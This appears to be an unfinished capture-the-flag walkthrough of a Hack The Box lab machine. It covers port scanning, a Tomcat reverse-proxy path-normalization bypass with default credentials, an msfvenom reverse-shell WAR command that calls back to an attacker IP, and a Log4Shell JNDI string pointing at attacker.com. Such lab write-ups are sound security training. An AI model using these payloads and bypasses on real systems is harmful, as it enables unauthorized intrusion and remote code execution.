




---
tags:
---


- Machine : 
- Reference : 
- Solved : 2024.00.00. (Thu) (Takes 0days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.138
Performing quick port scan on 10.10.11.138...
Found open ports: 22,80
Performing detailed scan on 10.10.11.138...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-01 05:36 EST
Nmap scan report for 10.10.11.138
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.04 seconds
```

2 ports are open : `ssh(22)`, and `http(80)`
Let me start from web service on port 80.

### http(80)


The main page is simple. It has only a single image.
Its source code doesn't have anything special.
Let's scan further with `nikto`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://10.10.11.138
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.138
+ Target Hostname:    10.10.11.138
+ Target Port:        80
+ Start Time:         2024-12-01 05:47:03 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
```

The website looks simple and normal apparently...
I fuzzed around website and tried to observe web request header when 404 error.
Here I can find some weird mismatch.



This is the 404 error message saying that the server is running `Apache Tomcat/9.0.31`.



This is the request header identifying the server as `Apache/2.4.41`.
This means that there must be a reverse-proxy which is running behind.

Here's a reference announced in 2018 how to exploit this mismatch:
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

In summary, due to the difference between the server-side applications, there might be a slack to exploit Path Normalization process.
`/..;/` can be processed as parent directory in its backend.

So, if I connect to `http://10.10.11.138/whatever/..;/manager/`,
This will be redirected to `http://10.10.11.138/manager` which is prohibited to connect.


Yup, it shows a login input. I can try default credential : `tomcat:tomcat`, and it works!



# Shell as `www-data`

### Uploading `war` file to open a reverse shell

Once you have an access to "apacheNaive approach is uploading malicious `war` file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.11.7 LPORT=9000 -f war -o rshell.war
Payload size: 13029 bytes
Final size of war file: 13029 bytes
Saved as: rshell.war
```

However, when I tried to upload and deploy the file, I got the following error;

```yaml
FAIL - Deploy Upload Failed, Exception: [org.apache.tomcat.util.http.fileupload.impl.FileSizeLimitExceededException: The field deployWar exceeds its maximum permitted size of 1 bytes.]
```

It says the size for the uploaded file is limited to 1 bytes.
It's almost impossible to upload 1 byte reverse shell file...

Let's try look for other methods... Log4Shell!

### Log4Shell

To summarize Log4J vulnerability, it's a vulnerability happening on `Log4J` module in Java engine.

`${jndi:ldap://attacker.com/a}` This request is for an lookup operation.
However, this request might triggers server-side fetching remote server, and ended up executing remote code if the URL contains malicious code.

 I tested existing applications in tomcat manager, and found out that `Expire sessions` for `/UHC{BadWayToBlockTomcat}` contains POST parameter that we can inject `jndi` string.

While sending the request, I can check it's working by monitoring LDAP traffic using `tcpdump`.



It is! The server is trying to fetching our kali machine from its backend which means it's vulnerable to `Log4Shell` attack.

There's an existing exploit named "JNDI-Exploit-Kit" as follows;
https://github.com/pimps/JNDI-Exploit-Kit/


> Let me hold here. The existing walkthrough using `ysoserial` and `jndi-exploit-kit` are not working... Let's visit later.